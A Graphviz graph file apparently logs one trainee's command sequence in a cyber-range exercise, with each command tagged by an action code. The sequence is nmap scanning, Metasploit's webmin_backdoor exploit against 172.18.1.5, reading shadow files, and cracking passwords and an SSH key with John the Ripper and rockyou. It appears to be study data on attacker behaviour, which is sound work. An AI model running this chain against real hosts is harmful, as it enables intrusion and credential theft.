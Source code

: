 // creating graph for user: 54
digraph {
	node [shape=box]
	1 [label="nmap -p 60000-65536 A0 A1 "]
	2 [label="nmap -p 60000-65535 A0 A1 "]
	3 [label="nmap 172.18.1.5 -p 60000-65535 M0 "]
	4 [label="nmap 172.18.1.5 -p 40000-60000 M0 "]
	5 [label="nmap 172.18.1.5 -p 20000-40000 M0 "]
	6 [label="nmap 172.18.1.5 -p 1000-20000 M0 "]
	10 [label="man msfconsole M2 "]
	11 [label="msfconsole M2 "]
	13 [label="nmap 172.18.1.5 -p 10000 M0 "]
	14 [label="man nmap A0 A1 "]
	15 [label="nmap 172.18.1.5 -p 10000 -sV M1 "]
	18 [label="use exploit/linux/http/webmin_backdoor M8 "]
	19 [label="ls -a M10 "]
	21 [label="ls A10 "]
	23 [label="ls A10 "]
	24 [label="ls -a M10 "]
	26 [label="search webmin M3 "]
	27 [label="cd exploit M8 "]
	28 [label="search exploit/linux/http M8 "]
	29 [label="search exploit/linux/http/webmin M8 "]
	30 [label="info exploit/linux/http/webmin_packageup_rce M8 "]
	31 [label="searchsploit webmnin A1 A3 "]
	35 [label="ls /usr/share/metasploit-framework A10 "]
	36 [label="ls /usr/share/metasploit-framework/modules A10 "]
	37 [label="ls /usr/share/metasploit-framework/modules/exploits M8 "]
	38 [label="ls /usr/share/metasploit-framework/modules/exploits/linux M8 "]
	39 [label="ls /usr/share/metasploit-framework/modules/exploits/linux/http M8 "]
	40 [label="ls /usr/share/metasploit-framework/modules/exploits/linux M8 "]
	41 [label="msfconsole M2 "]
	42 [label="search webmin M3 "]
	43 [label="search webmin_back M3 "]
	44 [label="search webmin_backdoor M3 "]
	45 [label="use exploit/linux/http/webmin_backdoor.rb M8 "]
	46 [label="show targets A5 "]
	47 [label="show options M5 "]
	49 [label="show options M5 "]
	50 [label="set LHOST 172.18.1.5 M6 "]
	51 [label="show options M5 "]
	52 [label="set LHOST M6 "]
	54 [label="msfconsole M2 "]
	55 [label="use exploit/linux/http/webmin_backdoor.rb M8 "]
	56 [label="show options M5 "]
	57 [label="set RHOSTS 172.18.1.5 M6 "]
	58 [label="show options M5 "]
	59 [label="exploit M8 "]
	61 [label="set LHOST 0.0.0.0 M6 "]
	62 [label="exploit M8 "]
	63 [label="run M8 "]
	64 [label="show options M5 "]
	65 [label="show missing A5 "]
	66 [label="show targets A5 "]
	67 [label="check 172.18.1.5 A7 "]
	68 [label="show targets A5 "]
	69 [label="show options M5 "]
	70 [label="set target 0 A6 "]
	71 [label="show options M5 "]
	72 [label="run M8 "]
	73 [label="check 172.18.1.5 A7 "]
	75 [label="use exploit/linux/http/webmin_backdoor.rb M8 "]
	76 [label="check 172.18.1.5 A7 "]
	77 [label="show options M5 "]
	78 [label="show targets A5 "]
	79 [label="set target 1 A6 "]
	80 [label="check 172.18.1.5 A7 "]
	82 [label="msfconsole M2 "]
	83 [label="use exploit/linux/http/webmin_backdoor M8 "]
	84 [label="show targets A5 "]
	85 [label="show options M5 "]
	86 [label="check 172.18.1.5 A7 "]
	88 [label="set LHOST 10.1.135.83 M6 "]
	89 [label="check 172.18.1.5 A7 "]
	90 [label="run M8 "]
	91 [label="set RHOSTS 172.18.1.5 M6 "]
	92 [label="run M8 "]
	93 [label="nmap -sn 172.18.1.5/24 M0 "]
	95 [label="nmap 172.18.1.1 A0 A1 "]
	97 [label="nmap 147.251.6.10 A0 A1 "]
	98 [label="show options M5 "]
	100 [label="msfconsole M2 "]
	101 [label="use exploit/linux/http/webmin/backdoor M8 "]
	102 [label="use exploit/linux/http/webmin/backdoor.rb M8 "]
	103 [label="use exploit/linux/http/webmin/backdoor.br M8 "]
	104 [label="use exploit/linux/http/webmin_backdoor M8 "]
	105 [label="show options M5 "]
	106 [label="set RHOSTS 172.18.1.5 M6 "]
	108 [label="set LHOST 10.1.135.83 M6 "]
	109 [label="run M8 "]
	110 [label="check 172.18.1.5 A7 "]
	111 [label="nmap 10.1.17.4 A0 A1 "]
	113 [label="cat shadow A1 A9 A11 A12 A17 "]
	115 [label="ls A10 "]
	117 [label="ls A10 "]
	118 [label="cat mypasswd.txt A1 A9 A11 A12 A17 "]
	119 [label="john mypasswd.txt A14 "]
	120 [label="john shadow A14 "]
	122 [label="cat shadow A1 A9 A11 A12 A17 "]
	124 [label="cat shadow A1 A9 A11 A12 A17 "]
	126 [label="cat shadow A1 A9 A11 A12 A17 "]
	128 [label="john mypasswd.txt A14 "]
	129 [label="run M8 "]
	136 [label="Bq2CuS5LcqbfVfl9737XeC+DNls/AmkLmYU/1NLKp1hWSpx0/dfJu725tDOtR6zB A10 "]
	184 [label="john id_rsa A14 "]
	185 [label="john --format=SSH id_rsa A14 "]
	186 [label="ssh2john id_rsa > id_rsa.hash A14 A16 "]
	187 [label="cat id_rsa M12 "]
	188 [label="/usr/sbin/ss2john A14 "]
	189 [label="/usr/sbin/ssh2john A14 A16 "]
	190 [label="locate ssh2john A1 A9 A10 A11 A12 A14 A16 A17 "]
	191 [label="/usr/share/john/ssh2john.py id_rsa > id_rsa.hash A14 A16 "]
	192 [label="cat id_rsa.hash M12 "]
	193 [label="john id_rsa.hash A14 "]
	194 [label="ls /usr/share A10 "]
	195 [label="ls /usr/share/wordlists A10 "]
	196 [label="john id_rsa.hash --wordlist=/usr/share/wordlists M14 "]
	197 [label="john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt M14 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 21 [constraint=false]
	21 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 95 [constraint=false]
	95 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 113 [constraint=false]
	113 -> 115 [constraint=false]
	115 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 122 [constraint=false]
	122 -> 124 [constraint=false]
	124 -> 126 [constraint=false]
	126 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 136 [constraint=false]
	136 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 197 [constraint=false]
	rankdir=LR
}

